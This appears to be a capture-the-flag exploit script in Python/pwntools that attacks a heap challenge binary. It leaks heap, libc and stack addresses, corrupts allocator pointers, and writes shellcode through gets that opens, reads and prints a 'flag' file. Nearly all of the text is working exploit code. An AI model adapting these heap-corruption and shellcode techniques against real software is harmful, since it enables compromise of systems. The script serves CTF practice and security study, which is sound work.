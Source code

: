 ```python
def backdoor():
    p.sendlineafter('> ',str(0x666))

for _ in range(5):
    add(0,0x160,'a')
    delete(0)
add(0,0x88,'a')
delete(0)
add(0,0x88,'a')
delete(0)
show(0)
heap = u64(p.recvuntil(b'\n',drop=True).ljust(0x8,b'\x00'))-0x2a0 
log.info('h.address:'+hex(heap))
for _ in range(5):
    add(0,0x88,'a')
    delete(0)
add(0,0x88,'a')
add(1,0x88,'a')
delete(0)
show(0)
leak_libc = u64(p.recvuntil(b'\n',drop=True).ljust(0x8,b'\x00')) - 2014176
log.info('libc ' + hex(leak_libc))
# raw_input()
for _ in range(7):
    add(0,0xa0,'a')
    delete(0)
    add(1,0xb0,'a')
    delete(1)
    add(0,0xc0,'a')
    delete(0)
    add(1,0x90,'a')
    delete(1)
add(0,0xa0,'a')
add(1,0xb0,'a')
add(2,0xb0,'a')
add(2,0xa0,'a')
add(3,0xb0,'a')
add(4,0x90,'a')
add(4,0x90,'a')
delete(1)
delete(3)
add(1,0xc0,'a')
add(3,0xc0,'a')
delete(0)
delete(2)
delete(4)
delete(1)
add(3,0x200,'a')
edit(4,p64(heap + 7664) + p64(0x100000-0x10))
add(1,0x160,'a')
secret(p64(0) + p64(l.symbols['puts'] + leak_libc) + p64(l.symbols['environ'] + leak_libc))
backdoor()

leak_stack = u64(p.recvuntil(b'\n',drop=True).ljust(0x8,b'\x00'))
log.info('leak stack :' + hex(leak_stack)) # 288

shellcode = shellcraft.amd64.open('flag',0) + shellcraft.amd64.read('rax',0x100000,0x20) + \
    shellcraft.amd64.write(1,0x100000,0x20)

secret(p64(0) + p64(l.symbols['gets'] + leak_libc) + p64(leak_stack-288) + \
    b'\x90'*0x30 + asm(shellcode))
backdoor()
'''
```